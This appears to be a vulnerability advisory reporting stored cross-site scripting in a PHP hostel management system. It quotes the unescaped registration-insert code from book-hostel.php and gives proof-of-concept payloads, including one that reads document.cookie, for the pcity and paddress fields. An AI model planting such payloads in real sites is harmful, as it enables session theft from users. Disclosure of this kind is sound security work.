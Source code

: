 # Hostel Management System #

## supplier ##

https://code-projects.org/hostel-management-site-using-php-source-code/

## Vulnerability file ##

book-hostel.php  room-details.php

## describe ##

The `book-hostel.php` file contains an unrestricted cross-site scripting (XSS) vulnerability, where all parameters can be passed into the `room-details.php` database, leading to a stored XSS attack. Malicious attackers can exploit this vulnerability to obtain sensitive information from the client side.

### Code analysis ###

Line 7-40 in book-hostel.php

```php
if(isset($_POST['submit']))
{
$roomno=$_POST['room'];
$seater=$_POST['seater'];
$feespm=$_POST['fpm'];
$foodstatus=$_POST['foodstatus'];
$stayfrom=$_POST['stayf'];
$duration=$_POST['duration'];
$course=$_POST['course'];
$regno=$_POST['regno'];
$fname=$_POST['fname'];
$mname=$_POST['mname'];
$lname=$_POST['lname'];
$gender=$_POST['gender'];
$contactno=$_POST['contact'];
$emailid=$_POST['email'];
$emcntno=$_POST['econtact'];
$gurname=$_POST['gname'];
$gurrelation=$_POST['grelation'];
$gurcntno=$_POST['gcontact'];
$caddress=$_POST['address'];
$ccity=$_POST['city'];
$cstate=$_POST['state'];
$cpincode=$_POST['pincode'];
$paddress=$_POST['paddress'];
$pcity=$_POST['pcity'];
$pstate=$_POST['pstate'];
$ppincode=$_POST['ppincode'];
$query="insert into  registration(roomno,seater,feespm,foodstatus,stayfrom,duration,course,regno,firstName,middleName,lastName,gender,contactno,emailid,egycontactno,guardianName,guardianRelation,guardianContactno,corresAddress,corresCIty,corresState,corresPincode,pmntAddress,pmntCity,pmnatetState,pmntPincode) values(?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?)";
$stmt = $mysqli->prepare($query);
$rc=$stmt->bind_param('iiiisisissssisississsisssi',$roomno,$seater,$feespm,$foodstatus,$stayfrom,$duration,$course,$regno,$fname,$mname,$lname,$gender,$contactno,$emailid,$emcntno,$gurname,$gurrelation,$gurcntno,$caddress,$ccity,$cstate,$cpincode,$paddress,$pcity,$pstate,$ppincode);
$stmt->execute();
echo"<script>alert('Student Succssfully register');</script>";
}
```

## POC ##
For pcity parameter, the test payload is `<script>alert(1)</script>`
For paddress parameter, the test payload is `<script>alert(document.cookie)</script>`
Visit this URL to trigger the cross-site scripting vulnerability.

```
http://localhost:8083/hostel/hostel/room-details.php
```

### Rusult ###
For parameter "pcity":
![image-2024-12-17](https://github.com/asd1238525/cve/blob/main/images/C86D5F5793428B917B254DDF3EB13AFC.png)
For parameter "paddress":
![image-2024-12-17-1](https://github.com/asd1238525/cve/blob/main/images/ECBA309DC86B06E635506466F5BA324D.png)
